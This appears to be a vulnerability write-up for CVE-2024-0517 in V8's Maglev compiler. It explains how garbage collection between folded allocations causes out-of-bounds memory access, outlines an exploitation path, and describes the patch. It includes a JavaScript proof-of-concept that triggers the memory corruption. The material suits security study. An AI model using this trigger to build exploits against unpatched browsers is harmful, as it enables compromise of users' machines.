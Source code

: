 # CVE-2024-0517

## Bug:
- `VisitFindNonDefaultConstructorOrConstructMaglev` consists of the bug, This function tries to optimize a class which has a parent class. They method in which it is lowered is the problem here.
- [1000] = 8 will trigger a garbage collection.
- When GC occurs between 2 folded allocations, it will move the first allocated chunk somewhere else and free the other space as there is no object at that point in time pointing to it. Later when the `folded allocation` takes place OOB happens.

<img src="./image.png"  width="50%" height="50%">

> note: In the image the chunks are **moved** from `young gen` to `old space`. The old and new just denotes the new and old allocation, not to be confused.
- `BuildAllocateFastObject()` function calls the `ExtendOrReallocateCurrentRawAllocation()` 
- Preconditions:
    - object whose instance being constructed should be constant => `if (!maybe_constant) return false;`
    - parent constructor should be a function => `if (!current.IsJSFunction()) return false;`
    - Checks if the `new_target_function` is a valid constructor => `if (new_target_function ＆＆ new_target_function-＞IsJSFunction() ＆＆ HasValidInitialMap(new_target_function-＞AsJSFunction(),current_function))`
    - This will call the `BuildAllocateFastObject` function to do the allocation for that object. In the young generations.

## Exploit:
![alt text](image-1.png)
- Get addrof primitive. Use the shellcode smuggling trick to get code excecution(wasm). 
- After this the instance of wasm was shifted to the trusted space so we need a new method to get a sanbox escape then get code excecution.

## patch:
- call `ClearCurrentRawAllocation` which make the `current_raw_allocation = null`. Both the allocations would have been made and the pointers would have been assigned. Hence it won't be folded across a GC() run, which causes the problem.
- wasm instance also has been put into a trusted zone and devs are trying to remove unsafe pointers from the instance.

## poc:
```js
function main() {
    class ClassParent {}
    class ClassBug extends ClassParent {
        constructor() {
            const v24 = new new.target();               // makes the checkvalue of the parent class to be constant with this call.
            super();                                    // Creates the instance of `this` object and allocates the memory required for storing infor for this object.
            let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];  // After triggering the GC in the wrong folded allocation this gets allocated, which gives us OOB
        }
        [1000] = 8; // trigger the GC
    }
    // triggering the maglev optimizer.
    for (let i = 0; i < 300; i++) {
        Reflect.construct(ClassBug, [], ClassParent);
    }
}
%NeverOptimizeFunction(main);
main();
```

## Extras:
- new.target: Tells us if the object was instantiated with the `new` keyword, For classes it will provide a way to access the function with which it was created.
- Reflect.construct: It constructs a new object with the `target` class constructor and with the provided `argument list` for the `new target` class/ function.
- Allocation Folding: If there is a need for more space in the future, v8 tries to allocate the entire space in one go, and use what is required at that time.
- `FindNonDefaultConstructorOrConstruct`: construct the object by walking the prototype chain through the super() constructor. `VisitFindNonDefaultConstructorOrConstruct` will try to optimize/ lower this process.